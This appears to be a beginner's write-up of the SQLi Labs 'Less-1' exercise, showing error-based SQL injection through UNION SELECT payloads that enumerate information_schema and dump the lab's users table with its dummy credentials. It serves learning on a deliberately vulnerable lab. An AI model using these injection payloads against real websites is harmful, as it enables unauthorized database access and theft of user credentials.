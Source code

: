 Hello guys,

This is the write up for Less-1 - " GET-Error Based- Single Quotes - String" from SQLi Labs


started with a [URL].../Less-1/ page, which instructed me to input the ID as parameter with numeric value.

So I start with adding ```?id=1``` after the URL and got 

```Your Login name:Dumb Your Password:Dumb```

in the page.

and using different numbers after 2, I got different Login names and passwords.

As the name of the Lesson suggests I start with a single quote Error

so I type a single quote ... ```[URL]/?id=1'```
and an error is returned ```You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the 
right syntax to use near ''1'' LIMIT 0,1' at line 1```

So it seemd like ```?id=x```, is going into an sql command like

```SELECT _____ FROM _____ WHERE id = 'x';```

This is because there are odd number of single quotes.

However, I continue by trying to find out the number of columns in the table from which the usernames and passwords are printed from, by adding 

```UNION SELECT 1 -- -```
It returned an error: 

``` The used SELECT statements have a different number of columns ```
so i continued increasing till an error wasnt returned at:

```[URL]/?id=1' UNION SELECT 1,2,3 -- -```

However from here on I continued by using a wrong number after id so that the output of my following code can come instead, i proceeded with ```?id=-1```

I proceded by using, ```UNION SELECT 1, group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database() -- -```
and  ```Your Login name:emails,referers,uagents,users
        Your Password:3``` was returned so there were 4 tables called emails,referers,uagents and users. It was obvious users had the data of the login information.

so I change the command to 

``` UNION SELECT 1, group_concat(column_name),3 from information_schema.columns WHERE table_name = 'users'-- -```
and ```Your Login name:id,username,password``` was updated
So, the table users had 3 columnns called 'id,username,password'

Therefore to get a dump of this table I finally used,

```UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users-- -```

And the username and password dump was finally printed!!!!

```
Your Login name:Dumb|Dumb,Angelina|I-kill-you,Dummy|p@ssword,secure|crappy,stupid|stupidity,superman|genious,batman|mob!le,admin|admin,admin1|admin1,admin2|admin2,admin3|admin3,dhakkan|dumbo,admin4|admin4
Your Password:3
```


references:

-https://www.sqlinjection.net/numeric-parameters/

-https://portswigger.net/web-security/sql-injection/union-attacks

-https://noobsec.net/sqli-cheatsheet/#Database-Contents



